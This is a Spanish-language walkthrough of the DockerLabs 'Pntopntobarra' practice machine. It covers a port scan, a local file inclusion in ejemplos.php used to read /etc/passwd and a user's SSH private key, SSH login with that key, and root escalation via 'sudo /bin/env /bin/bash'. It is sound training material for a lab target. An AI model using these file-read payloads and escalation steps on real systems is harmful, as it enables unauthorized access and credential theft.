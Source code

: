 ```yaml
---
layout: post
title: "Pntopntobarra"
date: 2024-11-01
 11:00:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Pntopntobarra </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Escaneamos los puertos y servicios activos en la maquina.

`sudo nmap -p- --open -sS -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/pntopntobarra/nmap.png){:.margin}

**2\.** En la web podemos ver una advertencia sobre un virus en nuestro sistema.

`http://172.17.0.2/`

![img](/notas/public/img/dockerlabs/pntopntobarra/80.png){:.margin}

_2.1- Pulse en el primer boton aceptando el buen reto y me peto la maquina, toco reinciarla :'(_

`http://172.17.0.2/`

![img](/notas/public/img/dockerlabs/pntopntobarra/80fakersituacion.png){:.margin}

_2.2- Vamos por el segundo boton, aqui todo bien; nos fijamos en la url donde aparentemente se acontese un LFI_

`http://172.17.0.2/ejemplos.php?images=./ejemplo1.png`

![img](/notas/public/img/dockerlabs/pntopntobarra/80ejemplo.png){:.margin}

**3\.** Nos aprovechamos del bug para ver el passwd, de ahi sacamos el usuario nico para luego visualizar su clave privada.

`http://172.17.0.2/ejemplos.php?images=/etc/passwd`

`http://172.17.0.2/ejemplo.php?images=/home/nico/.ssh/id_rsa`

![img](/notas/public/img/dockerlabs/pntopntobarra/80ejemplolfi.png){:.margin}
![img](/notas/public/img/dockerlabs/pntopntobarra/80ejemplorsa.png){:.margin}

**4\.** Lo guardamos la clave en un fichero, le damos los permisos pertinentes y luego nos conectamos por ssh.

`nano id_rsa`

`chmod 600 id_rsa`

`ssh -i id_rsa nico@172.17.0.2`

![img](/notas/public/img/dockerlabs/pntopntobarra/nanorsa.png){:.margin}
![img](/notas/public/img/dockerlabs/pntopntobarra/sshnico.png){:.margin}

**5\.** Una vez dentro encuentro un binario SUID, solo nos queda escalar a root podemos apoyarlos con [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo).

`sudo -l`

`sudo /bin/env /bin/bash`

![img](/notas/public/img/dockerlabs/pntopntobarra/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>